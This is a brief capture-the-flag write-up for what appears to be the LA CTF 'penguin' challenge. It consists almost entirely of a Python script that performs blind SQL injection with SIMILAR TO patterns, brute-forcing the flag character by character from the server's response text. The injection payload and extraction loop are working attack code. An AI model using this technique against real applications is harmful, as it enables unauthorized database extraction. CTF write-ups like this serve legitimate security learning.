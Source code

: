 `findflag.py`
```py
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

I was too lazy to press F12 while playing around, so I just based my final payload on the `"We found a penguin!!!!!"` response.

